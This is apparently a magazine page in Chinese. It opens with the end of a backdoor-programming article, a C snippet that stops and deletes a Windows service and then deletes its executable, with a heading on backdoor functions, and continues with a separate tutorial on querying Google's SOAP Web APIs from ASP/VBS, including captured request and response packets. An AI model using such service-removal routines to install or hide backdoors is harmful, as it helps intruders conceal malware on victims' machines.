// 如果服务已经创建，则打开服务

StartService(schService, 0, NULL);
// 启动服务进程

ControlService(schService, SERVICE_CONTROL_STOP, &RemoveServiceStatus);
// 控制服务状态

DeleteService(schService);
// 卸载服务程序

DeleteFile(lpImagePath);
// 删除文件
```

## 3. 后门程序相关函数

（下转第27页）

### 使用 ASP/VBS 调用 Google Web APIs 开发自己的搜索引擎

文／陈世宏  TB1d

#### 【引言】

Google 在 2002 年的 4 月份发布了名为 Google Web APIs 的应用程序接口，该接口可以让程序员通过调用 Google 强大的搜索引擎数据库开发出自己的搜索引擎。Google Web APIs 站点上则宣称：“With the Google Web APIs service, software developers can query more than 3 billion web documents directly from their own computer programs. Google uses the SOAP and WSDL standards so a developer can program in his or her favorite environment – such as Java, Perl, or Visual Studio .NET.”

在该 API 发布的时候，我曾经到 Google 上看了一下，发现该接口不错，当时把 Google 提供的 Developer's Kit 下了下来，里面只有 JAVA 的示例代码，由于本人对 JAVA 不感冒，就没有继续研究下去，只是略微地看了一下接口的说明书。后来，在国内的一个 PHP 站点上，看到了国内的第一个 SOAP Google API for PHP 发布了，通过 Google 搜索了一下也没发现，国内有 SOAP Google API for ASP/VBS 的版本发布，最近两天刚忙完自己的事情，整理自己的文件的时候，看到角落里还有个 GoogleApi 的目录，捡起来又研究起来了。

现在把步骤和心得写下来，与大家探讨一下。希望 MS 程序员能够喜欢。

PS：我相信很多人都会同意我说的 Google 是目前最 POP 的搜索引擎了。

## 【SOAP介绍】

SOAP（Simple Object Access Protocol）简单对象访问协议是在分散或分布式的环境中交换信息的简单的协议，是一个基于 XML 的协议。它包括 4 个部分：SOAP 封装（envelope），封装定义了一个描述消息中的内容是什么、是谁发送的、谁应当接受并处理它以及如何处理它们的框架；SOAP 编码规则（encoding rules），用于表示应用程序需要使用的数据类型的实例；SOAP RPC（RPC representation）表示远程过程调用和应答的协定；SOAP 绑定（binding），使用底层协议交换信息。

目前，最新以及最流行的技术当属 XML 了，MS 的 OFFICE2003 也发布了，据说也是基于 XML 开发的，具有很强的扩展性。

关于 SOAP，可以参照 IBM 提供的 SOAP 的专题 http://www-900.ibm.com/developerWorks/cn/xml/theme/ws-soap.shtml（中文的）

Google 搜索引擎现在可以通过基于 SOAP 的 Web 服务来访问了。这意味着，开发人员现在可以在他们自己的应用程序中嵌入 Google 搜索结果和其他信息。

## 【WSDL介绍】

WSDL（Web Services Description Language）网页服务描述性语言，WSDL 是一种 XML 语法，开发人员和开发工具可以用它来表示 Web 服务的功能。

## 【SOAP与API】

我简单地作了 VBS 的程序，通过 SNIFFER PRO 抓出下列数据包，以便分析。

#### Step 1 >

发送请求数据包

```http
POST /search/beta2 HTTP/1.1
User-Agent: Mozilla/4.0 (Compatible; MSIE 6.0; MS Web Services Client Protocol 1.0.3705.0)
Content-Type: text/xml; charset=utf-8
SOAPAction: "urn:GoogleSearchAction"
Content-Length: 883
Expect: 100-continue
Connection: Keep-Alive
Host: api.google.com
```

API Google.com 返回连接建立成功数据包

#### Step 2 >

发送数据包

```xml
<?xml version="1.0" encoding="utf-8"?>
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
 xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"
 xmlns:tns="urn:GoogleSearch"
 xmlns:types="urn:GoogleSearch/encodedTypes"
 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
 xmlns:xsd="http://www.w3.org/2001/XMLSchema">
 <soap:Body soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <tns:doGoogleSearch>
   <key xsi:type="xsd:string">...</key>
   <q xsi:type="xsd:string"></q>
   <start xsi:type="xsd:int">0</start>
   <maxResults xsi:type="xsd:int">1</maxResults>
   <filter xsi:type="xsd:boolean">false</filter>
   <restrict xsi:type="xsd:string" />
   <safeSearch xsi:type="xsd:boolean">false</safeSearch>
   <lr xsi:type="xsd:string" />
   <ie xsi:type="xsd:string" />
   <oe xsi:type="xsd:string" />
  </tns:doGoogleSearch>
 </soap:Body>
</soap:Envelope>
```

API Google.com 返回数据包

```http
HTTP/1.1 100 Continue...
```

#### Step 3 >

发送数据包

```xml
<?xml version="1.0" encoding="utf-8"?>
```

```xml
<soap:Envelope xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/"
 xmlns:soapenc="http://schemas.xmlsoap.org/soap/encoding/"
 xmlns:tns="urn:GoogleSearch"
 xmlns:types="urn:GoogleSearch/encodedTypes"
 xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
 xmlns:xsd="http://www.w3.org/2001/XMLSchema">
 <soap:Body soap:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
  <tns:doGoogleSearch>
   <key xsi:type="xsd:string">...</key>
   <q xsi:type="xsd:string"></q>
   <start xsi:type="xsd:int">0</start>
   <maxResults xsi:type="xsd:int">1</maxResults>
   <filter xsi:type="xsd:boolean">false</filter>
   <restrict xsi:type="xsd:string" />
   <safeSearch xsi:type="xsd:boolean">false</safeSearch>
   <lr xsi:type="xsd:string" />
   <ie xsi:type="xsd:string" />
   <oe xsi:type="xsd:string" />
  </tns:doGoogleSearch>
 </soap:Body>
</soap:Envelope>
```

API Google.com 返回数据包

```http
HTTP/1.1 200 OK
Date: Sun, 16 Mar 2003 20:25:26 GMT
Server: e.h.c.a.p.a
Content-Length: 2046
Keep-Alive: timeout=10, max=50
Connection: Keep-Alive
Content-Type: text/xml; charset=utf-8

<?xml version="1.0" encoding="UTF-8"?>
<SOAP-ENV:Envelope xmlns:SOAP-ENV="http://schemas.xmlsoap.org/soap/envelope/"
 xmlns:xsi="http://www.w3.org/1999/XMLSchema-instance"
 xmlns:xsd="http://www.w3.org/1999/XMLSchema">
 <SOAP-ENV:Body>
  <ns1:doGoogleSearchResponse xmlns:ns1="urn:GoogleSearch"
   SOAP-ENV:encodingStyle="http://schemas.xmlsoap.org/soap/encoding/">
   <return xsi:type="ns1:GoogleSearchResult">
    <documentFiltering xsi:type="xsd:boolean">false</documentFiltering>
    <estimatedTotalResultsCount xsi:type="xsd:int">313</estimatedTotalResultsCount>
    <directoryCategories xmlns:ns2="http://schemas.xmlsoap.org/soap/encoding/">...</directoryCategories>
   </return>
  </ns1:doGoogleSearchResponse>
 </SOAP-ENV:Body>
</SOAP-ENV:Envelope>
```